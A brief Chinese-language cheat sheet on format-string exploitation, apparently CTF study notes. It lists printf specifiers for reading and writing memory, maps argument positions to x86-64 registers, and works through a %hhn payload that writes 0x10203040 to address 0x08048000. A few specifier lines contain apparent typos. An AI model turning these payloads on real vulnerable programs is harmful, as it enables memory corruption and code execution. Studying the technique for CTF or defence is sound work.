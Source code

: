 来一个从其他地方拿来的格式化字符列表
```shell
32位
 
读
 
'%{}$x'.format(index)           // 读4个字节
'%{}$p'.format(index)           // 同上面
'${}$s'.format(index)
写
 
'%{}$n'.format(index)           // 解引用，写入四个字节
'%{}$hn'.format(index)          // 解引用，写入两个字节
'%{}$hhn'.format(index)         // 解引用，写入一个字节
'%{}$lln'.format(index)         // 解引用，写入八个字节
 
////////////////////////////
64位
 
读
 
'%{}$x'.format(index, num)      // 读4个字节
'%{}$lx'.format(index, num)     // 读8个字节
'%{}$p'.format(index)           // 读8个字节
'${}$s'.format(index)
写
 
'%{}$n'.format(index)           // 解引用，写入四个字节
'%{}$hn'.format(index)          // 解引用，写入两个字节
'%{}$hhn'.format(index)         // 解引用，写入一个字节
'%{}$lln'.format(index)         // 解引用，写入八个字节
 
%1$lx: RSI
%2$lx: RDX
%3$lx: RCX
%4$lx: R8
%5$lx: R9
%6$lx: 栈上的第一个QWORD
```

再给出一个写入方式。我们希望向0x08048000写入值0x10203040,可以这样构造:

```shell
\x00\x80\x04\x08\x01\x80\x04\x08\x02\x80\x04\x08\x03\x80\x04\x08%48c%6$hhn%240c%7$hhn%240c%8$hhn%240c%9$hhn
```

即对0x08048000写入16（前面16个地址字符）+48（%48c）=64=0x40
对0x08048001写入0x40（前面总输出的字符长度）+240（%240c）=304=0x130=0x30（因为是1个字节，所有只能留下8b，即0x30）
对0x08048002写入0x30（前面总输出的字符长度）+240（%240c）=288=0x120=0x20（因为是1个字节，所有只能留下8b，即0x20）
对0x08048003写入0x20（前面总输出的字符长度）+240（%240c）=272=0x110=0x10（因为是1个字节，所有只能留下8b，即0x10）

除了手工生成payload，还可以使用`fmtstr_payload`来生成
